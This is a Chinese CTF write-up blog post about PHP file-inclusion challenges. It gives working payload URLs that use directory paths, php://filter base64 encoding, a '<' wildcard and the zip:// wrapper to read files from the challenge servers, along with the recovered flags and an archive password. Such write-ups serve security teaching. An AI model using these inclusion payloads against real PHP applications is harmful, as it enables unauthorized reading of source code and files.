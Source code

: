 <!--yml
category: 未分类
date: 2022-04-26 14:44:17
-->

# 西邮ctf2020 web之文件包含解析_落雪wink的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_44145452/article/details/109498277](https://blog.csdn.net/weixin_44145452/article/details/109498277)

## 比赛地址：`http://39.97.182.97/`

这四道考题都是利用的php伪协议 参考[php伪协议，利用文件包含漏洞](https://blog.csdn.net/qq_41289254/article/details/81388343?utm_source=app)

![在这里插入图片描述](img/8200724fd5787d9c83a65ec9a6f93911.png)直接构造

```
http://watcem.top/wangzhan/27.php?file=flag.txt 
```

得到flag
![在这里插入图片描述](img/189e57e7064f59606258a3299ccd6b85.png)

![在这里插入图片描述](img/8b4eed8765a6e0c2b5f86aa3022d37ae.png)
尝试构造 http://watcem.top/wangzhan/26.php?file=flag.php
发现需要用base64来解码
![在这里插入图片描述](img/ab2b45f40af5b02cbfd214cf470b51de.png)使用php://filter构造

```
http://watcem.top/wangzhan/26.php?file=php://filter/read=convert.base64-encode/resource=flag.php 
```

得到base64加密过的字符串
![在这里插入图片描述](img/6f482dbc1763c4fa8c15b5f67d31c6a4.png)
base64解密得到flag
flag{fa8a8853b970c0f82bda58648ce1292a}

这题好**难 刚开始做没思路还是问的大佬才写出来

![在这里插入图片描述](img/5de52c1b41d4dec9133d70a69e764858.png)题中提示flag在桌面，然后试图构造桌面路径

```
http://watcem.top/ctf/2/2.php?file=C:\Users\Administrator\Desktop\flag.< 
```

之后在页面上发现回显，是.7z文件
![在这里插入图片描述](img/7f34699f42769ac3671604376ad8b5c8.png)

注：这里有一个知识点 PHP中的(<) 相当于通配符符号(*)
![在这里插入图片描述](img/92aea7d3c227d5bd6da2a551f3226cc5.png)确定是.7z文件后，重新构造url

```
http://watcem.top/ctf/2/2.php?file=zip://C:\Users\Administrator\Desktop\flag.zip%23flag.txt 
```

%23是#，经过转义在win上就要用%23
得到flag
![在这里插入图片描述](img/576655f5984d31b391b919f98d37ed16.png)我好菜阿巴阿巴

发现页面是这个，甜甜的文件- -
![在这里插入图片描述](img/89de6324fbf6954c4fedf8423cca59cc.png)

2333太甜了
![在这里插入图片描述](img/457d4ad64f75df98e7d0cbab61c67148.png)构造 查找在桌面上的含有flag的文件

```
http://watcem.top/ctf/3/3.php?file=C:\Users\Administrator\Desktop\flag.< 
```

得到回显 可以看到l.7z文件中含有flag.txt文本
![在这里插入图片描述](img/03a925b26add8e043a5e4115de58e35b.png)再构造，尝试打开flag.txt
构造一个发现没反应http://watcem.top/ctf/3/3.php?file=C:\Users\Administrator\Desktop\flag.7z%23flag.txt
试试base64解码

```
http://watcem.top/ctf/3/3.php?file=php://filter/convert.base64-encode/resource=file://C:\Users\Administrator\Desktop\flag.7z 
```

页面下方显示一串字符~

```
N3q8ryccAATAe6mrIAAAAAAAAABqAAAAAAAAADAECf7cQ+YDVIG3ANMRbxs5ucbqTnBjZLGyzsSyPyqWlpRLnwEEBgABCSAABwsBAAIkBvEHAQpTB+KCpw0d1h3bISEBAAEADBgUAAgKAbRFbLcAAAUBGQkAAAAAAAAAAAAREwBmAGwAYQBnAC4AdAB4AHQAAAAZABQKAQDAKZRq7KbWARUGAQAgAAAAAAA= 
```

base64解码发现没解出来，艹（一种植物）
把他们扔到010editor中，使用DecodeBase64脚本解码
![在这里插入图片描述](img/5b5d11e915d036f94dd93ffb55be1377.png)保存为1.7z 打开发现有密码
![在这里插入图片描述](img/6d055b87d6cb196e2a48c8ad6e78b180.png)看题上提示是3位数 纯数字密码，随便试下发现密码是123，当然也可以爆破 打开flag.txt 得到flag
![在这里插入图片描述](img/a93933d0f445e5c4825f682507191e0e.png)
题太难了，我是five，本人很菜，如果有写的不对的地方欢迎大佬们评论区留言指正
参考链接：[https://www.cnblogs.com/-mo-/p/11736445.html](https://www.cnblogs.com/-mo-/p/11736445.html)
[https://blog.csdn.net/qq_41289254/article/details/81388343?utm_source=app](https://blog.csdn.net/qq_41289254/article/details/81388343?utm_source=app)